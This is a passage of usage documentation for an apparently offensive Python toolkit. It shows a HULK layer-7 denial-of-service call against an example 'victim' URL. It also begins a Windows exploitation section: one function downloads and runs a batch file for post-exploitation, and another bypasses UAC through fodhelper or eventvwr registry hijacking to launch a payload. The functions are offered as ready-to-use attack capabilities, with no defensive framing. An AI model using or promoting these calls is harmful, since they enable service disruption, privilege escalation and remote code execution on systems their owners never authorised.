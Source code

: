 #### `hulk(url: str, threads: int = 50, duration: int = 30, always: bool = True)`

**What it does:**
Randomizes query strings to bypass caching/proxies and overwhelm the app.

**Example – HULK Attack:**

```python
DOS.Layer7.hulk(
    "http://victim.app/api/data", threads=100, duration=30, always=True
)
```

---

## 26. WINDOWS

> **Windows‑only Exploitation, Reconnaissance & Persistence.** ❌

### Cross‑Platform: ❌ Windows only (requires `pywin32`, `wmi`, `ctypes`, `winreg`)

---

## 26.1 Exploits

#### `exploit_Active_Windows()`

**What it does:**
Downloads and runs `WA.bat` to perform various Windows-specific post‑exploitation tasks.

**Example:**

```python
WINDOWS.exploit_Active_Windows()
```

#### `exploit_windows_uac_bypass(payload_path: str) -> bool`

**What it does:**
Bypasses UAC via registry hijacking (`fodhelper.exe`, `eventvwr.exe`, or `RunOnce`).

**Example:**

```python
success = WINDOWS.exploit_windows_uac_bypass("C:\\payload.exe")
if success:
    print("UAC Bypass achieved, payload launched!")
```

---

## 26.2 WinRecon
